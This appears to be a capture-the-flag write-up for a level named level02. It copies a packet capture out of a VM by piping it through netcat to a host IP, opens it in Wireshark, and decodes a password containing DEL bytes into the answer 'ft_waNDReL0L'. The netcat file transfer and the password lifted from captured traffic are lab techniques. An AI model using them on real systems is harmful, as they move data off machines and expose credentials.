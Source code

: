cmd: ls
output: level02.pcap

Share the file with the host so that we can analyze it by using Wireshark

in host:
ifconfig ---> to find the host ip
nc -l 1234 > level02.pcap  ---> listen the port 1234 for the file

in vm:
cmd : cp /home/user/level02/level02.pcap /tmp/
      cat /home/user/level02/level02.pcap | nc 10.24.3.2 1234 ---> host ip is 10.24.3.2

in wireshark:
use follow TCP Stream

output:
Password: ft_wandr...NDRel.L0L

we see . is 7x in hex:
"000000B9  66                                                 f
000000BA  74                                                 t
000000BB  5f                                                 _
000000BC  77                                                 w
000000BD  61                                                 a
000000BE  6e                                                 n
000000BF  64                                                 d
000000C0  72                                                 r
000000C1  7f                                                 .
000000C2  7f                                                 .
000000C3  7f                                                 .
000000C4  4e                                                 N
000000C5  44                                                 D
000000C6  52                                                 R
000000C7  65                                                 e
000000C8  6c                                                 l
000000C9  7f                                                 .
000000CA  4c                                                 L
000000CB  30                                                 0
000000CC  4c                                                 L
000000CD  0d                                                 ."

check hex '7f' in table ASCII is del

result:
ft_waNDReL0L


